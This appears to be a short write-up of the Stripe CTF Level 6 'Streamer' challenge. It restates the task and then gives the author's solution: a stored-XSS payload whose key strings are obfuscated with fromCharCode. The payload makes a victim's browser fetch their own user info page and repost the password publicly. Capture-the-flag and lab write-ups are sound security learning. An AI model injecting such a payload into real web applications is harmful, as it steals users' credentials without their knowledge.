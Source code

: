 After Karma Trader from Level 4 was hit with massive karma inflation (purportedly due to someone flooding the market with massive quantities of karma), the site had to close its doors. All hope was not lost, however, since the technology was acquired by a real up-and-comer, Streamer. Streamer is the self-proclaimed most steamlined way of sharing updates with your friends. You can access your Streamer instance here: https://level06-2.stripe-ctf.com/user-XXXXXXXXXX

The Streamer engineers, realizing that security holes had led to the demise of Karma Trader, have greatly beefed up the security of their application. Which is really too bad, because you've learned that the holder of the password to access Level 7, level07-password-holder, is the first Streamer user.

As well, level07-password-holder is taking a lot of precautions: his or her computer has no network access besides the Streamer server itself, and his or her password is a complicated mess, including quotes and apostrophes and the like.

Fortunately for you, the Streamer engineers have decided to open-source their application so that other people can run their own Streamer instances. You can obtain the source for Streamer at git clone https://level06-2.stripe-ctf.com/user-XXXXXXXXXX/level06-code. We've also included the most important files below. 


**My solution:**

I posted </script><script>$(function () { $.get(String.fromCharCode(117,115,101,114,95,105,110,102,111), function(data) { $(String.fromCharCode(35,99,111,110,116,101,110,116)).val(escape($(data).find(String.fromCharCode(116,100)).text())); $(String.fromCharCode(35,110,101,119,95,112,111,115,116)).submit(); }) });</script> and decoded the password

